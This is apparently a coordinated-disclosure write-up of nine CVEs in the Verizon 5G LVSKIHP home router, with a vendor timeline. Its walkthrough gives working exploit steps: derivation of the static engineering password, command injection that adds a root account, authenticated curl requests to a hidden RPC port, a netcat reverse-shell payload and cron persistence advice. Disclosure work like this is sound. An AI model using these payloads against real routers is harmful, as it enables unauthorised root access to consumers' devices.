





# Introduction
The Verizon 5G LVSKIHP is an all-in-one integrated Modem and Router that provides access to the Verizon Wireless 5G Wireless for Home Internet service. The consumer side of the device provides basic settings for configuration of the Wi-Fi, Firewall, Parental Controls, etc. This device can also be put into Bridge Mode, hat tip to Tifan.net's research:

https://tifan.net/blog/2021/04/01/enable-bridge-mode-on-verizon-5g-home-router-lv55-lvskisp/

# Credit
- Matthew Lichtenberger
- Shea Polansky

# CVEs
- [CVE-2022-28369](CVE-2022-28369.txt?raw=true) - IDU 3.4.66.162 does not validate URI passed to enable_ssh functio, allowing arbitrary file upload/execution.
- [CVE-2022-28370](CVE-2022-28370.txt?raw=true) - ODU 3.33.101.0 does not validate firmware cryptographically when uploaded to the crtc_fw_upgrade function.
- [CVE-2022-28371](CVE-2022-28371.txt?raw=true) - IDU 3.4.66.162 & ODU 3.33.101.0 utilize static firmware-embedded certificate for authentication to JSON listeners.
- [CVE-2022-28372](CVE-2022-28372.txt?raw=true) - IDU 3.4.66.162 & ODU 3.33.101.0 do not validate the URI passed to JSON listener for firmware update.
- [CVE-2022-28373](CVE-2022-28373.txt?raw=true) - IDU 3.4.66.162 does not properly sanitize user-controlled parameters within the crtcreadpartition function. Shell metacharacters can be injected to achieve remote code execution as the root user.
- [CVE-2022-28374](CVE-2022-28374.txt?raw=true) - ODU 3.33.101.0 does not properly sanitize user-controlled parameters within the DMACC URLs on the Engineering page. Shell metacharacters can be injected to achieve remote code execution as the root user.
- [CVE-2022-28375](CVE-2022-28375.txt?raw=true) - ODU 3.33.101.0 does not properly sanitize user-controlled parameters within the crtcswitchsimprofile function. Shell metacharacters can be injected to achieve remote code execution as the root user.
- [CVE-2022-28376](CVE-2022-28376.txt?raw=true) - IDU 3.4.66.162 & ODU 3.33.101.0 pre-generate a static password for the "verizon" engineering account.
- [CVE-2022-28377](CVE-2022-28377.txt?raw=true) - IDU 3.4.66.162 & ODU 3.33.101.0 pre-generate a static password for the "jrpc" account.

# Walkthrough
## Rooting the OutDoor Unit (ODU)
When the device is in Bridge Mode, the Consumer side ceases to provide any functionality (although the backend links can still be accessed).  It also exposes an interface at 10.0.0.1 that requires a username and password to access. 

The consumer side allows one to export the logs of the device, by navigating to the System Settings,  clicking the arrow for History Log, and clicking "Export Log".  When this function is triggered, it creates a .tar.gz of the entire Log directory and provides it to the user (under subdirectory /mnt/wnc/logs).  Several of the logs are instructive towards identifying further targets for investigation. The most useful log for this purpose was OMADM.log, which logged the device receiving a firmware update. 

Downloading and binwalking this file shows that it is an unencrypted Squashfs Filesystem.  Mounting it, there are several files of interest, but the main focus was on the "sdxprairie-sysfs.ubi" file. Since it's a UBI file system, Linux will not mount it as a loop device,  as UBI filesystems are block-based NAND, so they need to be extracted or mounted to a fake NAND: 
```
sudo modprobe nandsim first_id_byte=0x2c second_id_byte=0xac third_id_byte=0x90 fourth_id_byte=0x26
sudo nandwrite /dev/mtd0 sdxprairie-sysfs.ubi
sudo modprobe ubi mtd=/dev/mtd0,4096
sudo mount -t ubifs -o ro /dev/ubi0_0 test
```
The filesystem resembles a basic Linux ARM environment; however, several folders are empty, and it is likely they have mount points on the device and don't exist in the firmware image. However, exploring /etc/initscripts finds several interesting shell scripts for operating the device.  One of particular note is the function within /etc/initscripts/wnc_keygen titled "create_engineer_pwd". 

This function reveals that the engineering username is "verizon" and the engineering password is the first and last 7 characters of the SHA256 hash of the Serial Number concatenated with the Model Number of the device. It is possible to log in on the interface at 10.0.0.1 with this information. 

As Verizon likely did not expect casual users to access this portal, it seemed likely that less effort went into security hardening this side of the web portal. Initial efforts focused on the "Enable Telnet" functionality provided on the Settings page, but the above function provides the "verizon" user with a shell of "/bin/false", so this effort was halted. However, further down on the Settings page there are several arbitrary text fields, including ones labelled "DMACC1" through "DMACC3". 

Exploring further into the firmware image, the LuCI webserver controller was located at /usr/lib/lua/5.1/luci/. Digging into the /view/vz_page/setting.htm file, the following line governs the text input. 

Grepping for dmacc3 within the luci folder, there is a reference to controller/admin/settings.lua. Opening that file up, this function appears to utilize text placed in that field with no sanitization. 

Thus, this field was injectable. When a line like '; reboot;# is placed at the end of a DMACC URL string, the device reboots. Several attempts were made, like attempting to utilize sed to change the /bin/false in /etc/passwd, invoking a reverse shell, and others, before a successful approach was identified. Since the device runs all binaries as root, it is possible to edit any file on the system. By appending a new user account to the /etc/passwd and /etc/shadow files, a user "tester" with the password "testtest" is created in the system:  
```
'; echo 'tester:$6$npapnF1GfqtUSVWY$vA1CApnnjXxQiIXMl2JKhpnS0V.g0cTNx2HDGvxeURrhTMjjQsO2DN6ec6hLjAG2Ao2yZiPgE4GdbbgvuCBf9/:::::::' >> /etc/shadow; # 
'; echo "tester:x:0:0:tester:/bin/ash" >> /etc/passwd; #
```
Once this is complete, and the "Telnet Enable" toggle is selected, no further barriers were encountered logging in with Telnet. As the tester account was configured with the UID of 0 and the GID of 0, no privilege escalation is required. 

This completes the rooting of the "ODU" component of the device, or "OutDoor Unit" aspect. Note that the /etc/shadow and /etc/passwd are not regenerated on reboot, so this is a persistent modification (until a new firmware is loaded into the device).

## Rooting the InDoor Unit (IDU)

The other half of the device is the "IDU" or "InDoor Unit", which runs the consumer-side functionality of the router, at 10.0.0.2. Verizon appears to have spent time hardening this side... attempting to inject on many of the fields returns a warning saying "Due to security concerns, please do not use special characters, e.g. ()[];|\'<>`&="". Additionally, a JSON response of "invalid symbol" is returned, which suggests the check is performed server side. 

While watching the network traffic when navigating pages, several "encr_get" queries were observed. These queries are encrypted with a public key the server provides, and are encrypted by a function in "wnc.js" that is as follows:

```
params.args = JSON.stringify(params.args);
if(cmd.api == CMD.ENCR_GET.api || cmd.api == CMD.ENCR_SET.api){
     //console.log(params.args);  // need remove
     const encrypt = new JSEncrypt();
     encrypt.setPublicKey(sessionStorage.pubkey);
     var encrypt_data = ""
     var end = 0;
     for(var i=0; end < (params.args.length+1); i++){
           end = ((i+1)*117) > (params.args.length+1) ? (params.args.length+1): ((i+1)*117)
           var str = params.args.slice(i*117, end);
           encrypt_data = encrypt_data + encrypt.encrypt(str) + "#";
     }  
     params.args = encodeURIComponent(encrypt_data);
}
```

Putting a breakpoint before the params.args is encrypted,  the request is for [{"ObjName":"Device.Users.User."}] and that the response contains 4 JSON Objects, each titled "cpe-User-<x>". 1 is "root", 2 is "jrpc", 3 is the consumer user "admin", and 4 is "verizon".  Going back to the login screen, there is a hidden field named "srp_username" that holds the value of "admin".  Removing the type="hidden" property on that field and using the engineering password from above allows for login as the Verizon user,  but no further functionality was immediatley exposed when logged in.  Note that you can also breakpoint line 140 of cgi-bin/luci in the debugger, and in the console issue "username = encrypt.encrypt("verizon")" to perform the same mod. 
  
However, once the account was logged out again, it redirects to a new endpoint: /cgi-bin/luci/verizon/engineer. This time, the page title is "Engineer Sign In",  and using the same engineer password redirects to a new environment with new functionality.  A toggle allows the user to disable the Software Update (useful to 'hold' the device at a vulnerable version), run a speed test, edit the Wifi settings, and more. Additionally, none of these fields trigger the warning seen earlier. Like the engineer portal on the ODU, consumers are not expected to access this section, and thus fields trust any input provided.

As above, the next step was to explore the IDU's file system. Initially it seemed like any attack on the IDU was going to be blind, but a second review of the OMADM.log file during the update process revealed the following line. 

The WNC_SIGNED_LVSKIHP.32bit.nand.lab2.3.4.66.162.210520_1031.bin file exists in the update firmware.  However, a different approach was required to extract this file system. The previous trick to mount the UBI against a nandsim wasn't working,  so instead the "ubi_reader" tool from https://github.com/jrspruitt/ubi_reader was used. First, we extract the UBI image with:
```
dd if=WNC_SIGNED_LVSKIHP.32bit.nand.lab2.3.4.66.162.210520_1031.bin of=idu.ubi bs=1 skip=3328688
```
Then using the command "ubireader_extract_images idu.ubi" extracted three files into the directory "ubifs-root/idu.ubi", one of which was named "img-1221542750_vol-ubi_rootfs.ubifs". blkid identifies this as a squashfs image. Using: 
```  
sudo unsquashfs ubifs-root/idu.ubi/img-1221542750_vol-ubi_rootfs.ubifs
```
The root filesystem for the IDU side is revealed.  Hunting through the file system, we find a configuration file for the lighttpd daemon, and it identifies an interface listening on port 48443, named "crtc".  Amazingly, it accepts a set of keys that are hardcoded into the firmware, in the same directory. Reviewing the /usr/lib/lua/luci/crtc.lua file, a function named "crtcreadpartition" was identified as not santizing its parameters. 

In order to get access to this function, we must first enable the crtcmode of the modem. To do so, we issue the following curl command: 
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcmode","params":["enable"]}'
```
This command also benefits us in that it automatically enables telnet and USB on the ODU side.  An injection payload was crafted of the format: 
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcreadpartition","params":["; <payload>;#"]}'. 
```

After a few different approaches were attempted, the mkfifo method of creating a reverse shell was identified as a successful approach. As the ODU had already been rooted, it seemed a good target for connecting back to, as it is trusted by the IDU and thus it was unlikely that firewall rules would interfere. The final payload was: 
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcreadpartition","params":["; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 11223 >/tmp/f ;#"]}'
```
And the command run on the ODU was:
```
nc -l -p 11223
```
Note that whoami does not exist on this system, but it is running as the root user. Persistence can be established through any of a myriad of ways. We suggest a reverse shell in the crontab file.

# Improvements
Improvements can be seen in the codebases for both the InDoorUnit (IDU):

And in the OutDoorUnit (ODU):


# Timeline
- 2021-12-25 : Vulnerabilities discovered.
- 2021-12-29 : Verizon contacted.
- 2022-01-12 : No response from Verizon, report sent to manufacturer: Wistron NeWeb Corp.
- 2022-01-13 : Verizon acknowledged report.
- 2022-01-27 : Update requested.
- 2022-02-03 : Update requested. Verizon responds, no substantive update.
- 2022-02-15 : Modem receives firmware update 5.33.117.1. Still vulnerable to attack chain.
- 2022-02-23 : Verizon requested screenshots of exploits in action. Provided same day.
- 2022-02-26 : Notified Verizon that the Engineering password was now in the wild on a Reddit post. Verizon acknowledged 2/28/22.
- 2022-03-25 : Requested update, and informed that vulnerabilities were submitted to MITRE for CVE issuance.
- 2022-04-27 : Modem receives firmware downgrade back to 3.33.101.1. Requested update from Verizon.
- 2022-05-02 : Received CVEs for vulnerabilities. Provided to Verizon, as well as indication that report would be released July 1st. Verizon indicated end of May for remediation.
- 2022-06-01 : Update requested.
- 2022-06-14 : Modem receives firmware update 5.33.141.1. All vulnerabilities are patched.
- 2022-06-28 : Verizon provided confirmation from security team that all vulnerabilities have been resolved.
- 2022-07-01 : Public release.
